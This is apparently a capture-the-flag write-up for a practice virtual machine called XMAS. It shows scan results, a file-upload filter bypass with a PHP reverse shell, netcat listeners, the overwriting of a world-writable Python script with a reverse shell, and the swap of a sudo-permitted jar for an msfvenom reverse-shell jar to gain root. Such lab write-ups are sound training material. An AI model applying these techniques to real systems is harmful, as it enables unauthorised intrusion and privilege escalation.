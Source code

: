```yaml
---
title: XMAS-Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```


# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.63    08:00:27:b1:ae:10       PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a6:3e:0b:65:85:2c:0c:5e:47:14:a9:dd:aa:d4:8c:60 (ECDSA)
|_  256 99:72:b5:6e:1a:9e:70:b3:24:e0:59:98:a4:f9:d1:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.55
|_http-server-header: Apache/2.4.55 (Ubuntu)
|_http-title: Did not follow redirect to http://christmas.hmv
MAC Address: 08:00:27:B1:AE:10 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  

TRACEROUTE

HOP RTT     ADDRESS

1   0.93 ms xmas (192.168.1.63)
```

## Add hosts

```shell
echo "192.168.1.63 christmas.hmv" >> /etc/hosts
```

## File upload

We can see there is a upload function which we can possibly use.

![](assets/img/XMAS/Upload_Function.png)
As we can see, we can only upload pdf files.

With uploading "php-reverse-shell.pdf" first, we can then use burp to intercept the request and change it into "php-reverse-shell.php". 

![](assets/img/XMAS/Burp_upload.png)

```shell
nc -lnvp 4444
```

## Privilege Escalation 

By using "linpeas.sh", we can discover some interesting files.


![](assets/img/XMAS/Linpeas_result.png)

```shell
drwxr-xr-x  2 root root 4096 Nov 20 18:39 NiceOrNaughty
-rwxrwxrw- 1 root root 2029 Nov 20 18:39 nice_or_naughty.py
```

As we see that we have the permission to write into the file "nice_or_naughty.py".
Hence we will do is to create a python reverse shell.

```shell
nc -lnvp 1234
```

Then we are able to login in to user alabaster

## Privilege Escalation 

```shell
alabaster@xmas:~/PublishList$ sudo -l
sudo -l
Matching Defaults entries for alabaster on xmas:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User alabaster may run the following commands on xmas:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/java -jar
        /home/alabaster/PublishList/PublishList.jar
```


```shell
alabaster@xmas:~/PublishList$cat PublishList.java
cat PublishList.java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;

public class PublishList {

    public static void main(String[] args) {

        String sourceFile1 = "/home/alabaster/nice_list.txt";
        String sourceFile2 = "/home/alabaster/naughty_list.txt";
        String destinationFolder = "/home/santa/";

        try {
            copyFile(sourceFile1, destinationFolder);
            copyFile(sourceFile2, destinationFolder);
            System.out.println("Files copied successfully!");
        } catch (IOException e) {
            System.out.println("Failed to copy files!");
            e.printStackTrace();
        }
    }

    private static void copyFile(String sourceFile, String destinationFolder) throws IOException {
        int bytesRead;
        FileInputStream in = new FileInputStream(sourceFile);
        FileOutputStream out = new FileOutputStream(destinationFolder + new File(sourceFile).getName());

        byte[] buffer = new byte[4096];
        while ((bytesRead = in.read(buffer)) != -1) {
            out.write(buffer, 0, bytesRead);
        }

        in.close();
        out.close();
    }
}
```

We did not see any things that we can use for privilege escalations.

```shell
-rw-rw-r-- 1 alabaster alabaster 7504 Mar 23 05:31 PublishList.jar
```

But we see that we have to permission to write into the file.

Therefore, we will do is to generate a jar reverse shell via msfvenom and transfer it to the server

```shell
mv shell.jar /home/alabaster/PublishList/PublishList.jar
```

```shell
sudo java -jar /home/alabaster/PublishList/PublishList.jar
```

Then we are able to get root permission


